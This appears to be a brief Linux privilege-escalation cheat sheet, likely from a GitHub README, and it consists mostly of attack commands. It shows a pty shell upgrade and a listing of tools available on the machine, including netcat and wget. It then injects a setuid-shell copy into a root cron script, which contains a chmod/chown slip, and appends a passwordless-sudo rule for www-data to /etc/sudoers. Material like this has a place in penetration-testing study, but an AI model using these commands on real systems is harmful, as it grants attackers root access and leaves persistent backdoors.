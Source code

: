 Linux Privilege escalation
==========================

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:


**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update
